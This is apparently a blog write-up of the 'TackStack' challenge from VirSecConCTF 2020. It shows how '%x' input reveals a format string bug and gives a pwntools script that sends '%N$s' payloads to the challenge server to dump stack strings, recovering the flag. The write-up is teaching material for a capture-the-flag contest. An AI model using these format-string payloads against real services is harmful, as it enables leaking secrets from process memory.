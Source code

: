 ```yaml
---
layout: post
title: VirSecConCTF 2020 - TackStack
excerpt: "Writeup for data leak challenge from VirSecConCTF 2020"
categories: [pwn]
---
```


Tackstack was a 100 point challenge during VirSecConCTF 2020. It was actually very simple, but somehow only accumulated 59 solves. The challenge gives us a command to connect to the challenge. No source code is provided. Below is a snapshot of the challenge server in action. Basically it allows us to type in "tacks" to be added to the stack.

```
michael@computer:~/Documents/CTF/virseccon/tackstack$ nc jh2i.com 50038
========================
|       TACKSTACK      |
========================


Welcome to TackStack!
How to play:
  * Stack your tacks!
Ready? Go!

Your tack: tack
------------------------
|                      |
    tack
|                      |
------------------------

Your tack: tack2
------------------------
|                      |
    tack
    tack2
|                      |
------------------------

Your tack: %x
------------------------
|                      |
    tack
    tack2
    4030be
|                      |
------------------------
```

In the last prompt, where I entered `%x`, you can see that a hex number was returned. This indicates a format string vulnerability. Since we were not provided source code or a binary to attempt code redirection, I wrote a script to leak all strings off of the stack to see if there was anything useful.

{% highlight python %}
from pwn import *

context.log_level = 'error'

for i in range(100):

    r = remote('jh2i.com', 50038)

    r.recvuntil('Your tack: ')
    r.sendline('%{}$s'.format(i + 1))

    try: print(r.recvuntil('Your tack: ')[54:100].rstrip())
    except: print('EOF')
    
    r.close()

{% endhighlight %}

The script outputs lots of non-ascii junk, along with parts of the ascii-boxes, but around leak 100 we see something interesting.

```
|                      |
-------
FLAG=LLS{tack_stack?_more_like_stack_attack}
|
(null)
|                      |
--------------
EOF
```

We can see that the flag `LLS{tack_stack?_more_like_stack_attack}` was on the stack all along! This can be submitted for 100 challenge points.
